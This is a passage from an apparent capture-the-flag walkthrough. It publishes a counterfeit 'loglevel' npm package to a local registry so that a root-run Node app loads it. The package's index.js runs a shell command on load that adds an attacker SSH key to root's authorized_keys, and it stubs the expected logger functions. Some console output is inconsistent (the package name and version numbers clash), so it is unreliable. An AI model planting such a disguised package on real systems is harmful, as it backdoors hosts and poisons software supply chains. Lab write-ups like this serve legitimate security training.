 ```console

{
  "name": "db-logger",
  "version": "1.0.1",
  "description": "im qwe ",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC"
}

Is this OK? (yes)
```

3. Publish loglevel@1.8.1 (because we need to set a higher version of machine's original version 1.8.0)

```console
└─╼$ npm publish --registry http://127.0.0.1:4873/
npm notice
npm notice 📦  loglevel@1.8.1
npm notice === Tarball Contents ===
npm notice 1.6kB index.js
npm notice 204B  package.json
npm notice === Tarball Details ===
npm notice name:          loglevel
npm notice version:       1.9.2
npm notice filename:      loglevel-1.9.2.tgz
npm notice package size:  719 B
npm notice unpacked size: 1.8 kB
npm notice shasum:        f4497a26942d7e66d6058b5dab8e6548e55db458
npm notice integrity:     sha512-47bp1gyyide4g[...]V3vVll6nFyAxg==
npm notice total files:   2
npm notice
npm notice Publishing to http://127.0.0.1:4873/ with tag latest and default access
+ loglevel@1.8.1
```

The faked package needs to fill in some more functions:

```console
kavi@seventeen:~$ cat /opt/app/index.js | grep -o 'logger\.\w\+\s*(' | awk -F'[.(]' '{print $2}'
debug
warn
log
```

Reference: [how to execute system command in nodejs](https://stackabuse.com/executing-shell-commands-with-node-js/)

```console
└─╼$ cat index.js
require('child_process').exec('mkdir -p /root/.ssh; echo "ssh-ed25519 AAAAC3...d1DnmCN qwe@kali" >> /root/.ssh/authorized_keys;touch /home/kavi/imroot')

function log(msg) {}
function warn(msg) {}
function debug(msg) {}
module.exports = {
    log: log,
    debug: debug,
    warn: warn
};
```
